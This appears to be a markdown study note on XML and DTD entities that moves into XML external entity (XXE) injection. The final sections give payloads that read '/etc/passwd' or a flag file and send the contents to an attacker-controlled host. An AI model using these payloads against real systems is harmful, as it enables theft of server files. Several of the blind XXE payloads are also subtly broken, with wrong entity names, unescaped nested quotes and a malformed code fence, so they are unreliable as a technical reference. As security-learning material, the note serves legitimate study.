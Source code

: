 # XML
* eXtensible Markup Language


* Sample XML 
```xml
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

## DTD
* Document Type Definition, defines the structure of an `XML` document. It is placed before the actual `XML` content.


### Internal DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ELEMENT message (to,from,subject,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT subject (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

* `<!DOCTYPE>`: the root element of this document is `message`
* `<!ELEMENT message>`: Each `message` element must contain these four elements: `to`, `from`, `subject`, `body`.
* `#PCDATA`: Parsed Character Data

### External DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message SYSTEM "message.dtd">
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```
* The `DTD` of this xml file is imported from `message.dtd` with `SYSTEM` keyword.
* `SYSTEM` specifies the inclusion of an external file into `XML`, can be from `URI` or `URL`


## DTD Entities
* Entities are like variables, and they live inside `DTD` block. We can declare entities and use them later with `&` and `;` symbol before the entity name.
* They are always reference the entity begin with `&` and end with `;`

### Internal DTD Entity
* They must be enclosed by `DOCTYPE`!
```xml
<!DOCTYPE pwn [
<!ENTITY email "some@email.com">
<!ENTITY author "Alice &email;">
]>
<author>&author;</author>
```

Result `XML` data:
```
<author>Alice some@email.com</author>
```

### External DTD Entity
* They must be enclosed by `DOCTYPE`!
```xml
<!DOCTYPE pwn [
<!ENTITY author SYSTEM "http://example.com/entities.dtd">
]>
<author>&author;</author>
```


### Parameter Entity, aka Embedded Entity
* We can define an `entity` with a entity definition. When `&outer` is called, it is parsed like `<!ENTITY inner 'My name is Alice'>`
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```

* Another example
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```
# Simple XXE payload
* `%26` is `&` urlencoded.
```xml
<!DOCTYPE wrapper [<!ENTITY pwn SYSTEM "file:///flag">]> <a>%26pwn;</a>
```
# Blind XXE injections
* Since we can't directly reference an Entity within an internal DTD, we have to make use an external DTD. `XXE` is also known as `XML external entity` injection
```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```
* `evil.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%passwd;">">
%wrapper;
```

# Blind XXE injection with file content containing `<`
* We will use `CDATA`, character data to bypass this.
* Anything between `<![CDATA[ ` and `]]>` will not be parsed by the XML parser
* `evil.dtd`
``xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
<!ENTITY % wrapper_send "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%wrapper;">">
%wrapper_send;
```


